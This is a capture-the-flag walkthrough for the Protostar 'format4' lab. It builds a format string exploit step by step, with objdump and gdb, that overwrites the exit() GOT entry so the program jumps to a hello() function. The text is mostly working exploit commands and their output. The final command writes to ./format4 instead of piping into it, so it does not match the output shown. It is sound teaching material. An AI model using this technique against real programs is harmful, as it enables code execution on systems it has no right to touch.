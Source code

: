 <h2>Goal</h2>
The goal of this challenge similar to the later stack challenges, we have to overwrite an EXIT with the `hello()` function address, but through a format string exploit.

<h2>Process</h2>
Let's start off by getting the addresses we need.

Using `objdump -TR` as suggested by the challenge we get the following:
```bash
/opt/protostar/bin$ objdump -TR format4

08049710 R_386_JUMP_SLOT   fgets
08049714 R_386_JUMP_SLOT   __libc_start_main
08049718 R_386_JUMP_SLOT   _exit
0804971c R_386_JUMP_SLOT   printf
08049720 R_386_JUMP_SLOT   puts
08049724 R_386_JUMP_SLOT   exit
```

`exit 08049724` is the address we will want over write.

Objdump can be used again to get the memory address of the hello function.

```bash
objdump -d format4 | grep hello
080484b4 <hello>:
```


Now we need to figure out where we can start changing memory. Use the same process as Format2 and Format3 to determine this. We end up with this:

```bash
python -c 'print "AAAA"+"%x "*4' | ./format4
AAAA200 b7fd8420 bffff614 41414141 
```

Next replace the `41414141` with the address of `\x24\x97\x04\x08`, which we want to overwrite. I will also jump ahead a bit here, replace `%x` with `%n` and add in the proper format for a full write.

```bash
python -c 'print "\x24\x97\x04\x08"+"\x25\x97\x04\x08"+"\x26\x97\x04\x08"+"\x27\x97\x04\x08"+"%4$n"+"%5$n"+"%6$n"+"%7$n"' | ./format4
$�%�&�'�
Segmentation fault
```

Last time format3 printed out the value we had overwritten and we could use it to determine what values to specify, this time it does not. We will have to go into gdb to get the correct values. Before going to gdb put the exploit output into a file so we can use it in gdb.

```bash
python -c 'print "\x24\x97\x04\x08"+"\x25\x97\x04\x08"+"\x26\x97\x04\x08"+"\x27\x97\x04\x08"+"%4$n"+"%5$n"+"%6$n"+"%7$n"' > /tmp/exp
```

`disas vuln` and set a break point at the exit so we can examine the value we are writing. `break *vuln+61`

In gdb with breakpoint set:

```bash
r < /tmp/exp
Starting program: /opt/protostar/bin/format4 < /tmp/exp
$�%�&�'�

Breakpoint 1, 0x0804850f in vuln () at format4/format4.c:22
22	format4/format4.c: No such file or directory.
	in format4/format4.c
    
#print out the value of the exit address.    
(gdb) x/1x 0x08049724
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:	0x10101010
```

Ok now for some math.  Since we are working with little endian we will be starting with the least significant byte of both the value of exit and value we want to overwrite it with.

Value of exit: `0x10101010`
Value we want to overwrite exit with: `0x080484b4`

GDB can do the math for us. Take the LSB of our desired value, `b4` and subtract the current LSB value of exit `10`

```bash
p 0xb4 - 0x10 
$1 = 164
```

Next is to subtract the second LSB `84` from the previous desired value, `64`

```bash
p 0x84 - 0xb4
$2 = -48
```
Notice the negative value. We cannot accept negative values, so add a 1 to the infront of the desired value, `0x184`

```bash
p 0x184 - 0xb4
$3 = 208
```

Continue on with the same process. Next `0x04 - 0x84`. We know that 84 is larger than 04, so we can add the 1 before the calculation
```bash
p 0x104 - 0x84
$4 = 128
```

```bash
p 0x108 - 0x04
$5 = 260
```

Now that we have all our values we can add each one to the exploit code. 
Example: `"%4n"` becomes `"%164x%4$n"`

<h2>Solution</h2>

```bash
python -c 'print "\x24\x97\x04\x08"+"\x25\x97\x04\x08"+"\x26\x97\x04\x08"+"\x27\x97\x04\x08"+"%164x%4$n"+"%208x%5$n"+"%128x%6$n"+"%260x%7$n"' > ./format4
$�%�&�'�                                                                                                                                                                 200                                                                                                                                                                                                        b7fd8420                                                                                                                        bffff614                                                                                                                                                                                                                                                             8049724
code execution redirected! you win
```

